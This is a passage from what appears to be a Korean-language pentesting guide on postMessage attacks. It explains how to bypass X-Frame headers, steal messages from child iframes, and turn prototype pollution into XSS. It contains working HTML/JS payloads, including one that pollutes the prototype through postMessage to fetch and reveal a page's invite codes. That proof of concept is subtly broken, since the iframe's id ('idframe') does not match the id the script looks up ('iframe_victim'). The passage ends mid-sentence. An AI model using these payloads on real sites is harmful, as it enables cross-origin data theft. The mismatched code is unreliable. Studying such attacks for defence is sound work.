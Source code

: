 ### X-Frame-Header 우회

이러한 공격을 수행하기 위해서는 이상적으로 **피해자 웹 페이지**를 `iframe` 안에 넣을 수 있어야 합니다. 그러나 `X-Frame-Header`와 같은 일부 헤더는 그 **동작**을 **방지**할 수 있습니다.\
이러한 시나리오에서는 덜 은밀한 공격을 여전히 사용할 수 있습니다. 취약한 웹 애플리케이션을 새 탭에서 열고 그와 통신할 수 있습니다:
```html
<script>
var w=window.open("<url>")
setTimeout(function(){w.postMessage('text here','*');}, 2000);
</script>
```
### 자식에게 전송된 메시지 훔치기: 메인 페이지 차단

다음 페이지에서는 **메인** 페이지를 차단하여 **자식 iframe**에 전송된 **민감한 postmessage 데이터**를 어떻게 훔칠 수 있는지 보여줍니다. 데이터를 전송하기 전에 **차단**하고 **자식**에서 **XSS**를 악용하여 데이터가 수신되기 전에 **유출**합니다:

{{#ref}}
blocking-main-page-to-steal-postmessage.md
{{#endref}}

### iframe 위치 수정으로 메시지 훔치기

X-Frame-Header가 없는 웹페이지를 iframe으로 삽입할 수 있다면, 그 자식 iframe의 **위치를 변경**할 수 있습니다. 만약 **와일드카드**를 사용하여 전송된 **postmessage**를 수신하고 있다면, 공격자는 그 iframe의 **출처**를 자신이 **제어하는** 페이지로 **변경**하고 메시지를 **훔칠** 수 있습니다:

{{#ref}}
steal-postmessage-modifying-iframe-location.md
{{#endref}}

### postMessage를 통한 프로토타입 오염 및/또는 XSS

`postMessage`를 통해 전송된 데이터가 JS에 의해 실행되는 시나리오에서는 **페이지**를 **iframe**으로 삽입하고 **프로토타입 오염/XSS**를 **postMessage**를 통해 악용할 수 있습니다.

[https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html)에서 **postMessage**를 통한 **XSS**에 대한 몇 가지 **매우 잘 설명된 사례**를 찾을 수 있습니다.

`iframe`에 대한 `postMessage`를 통해 **프로토타입 오염**을 악용하고 그 후 **XSS**를 발생시키는 공격 예시:
```html
<html>
<body>
<iframe
id="idframe"
src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
<script>
function get_code() {
document
.getElementById("iframe_victim")
.contentWindow.postMessage(
'{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\" />"}}}',
"*"
)
document
.getElementById("iframe_victim")
.contentWindow.postMessage(JSON.stringify("refresh"), "*")
}

setTimeout(get_code, 2000)
</script>
</body>
</html>
```
자세한 정보는 다음을 참조하세요: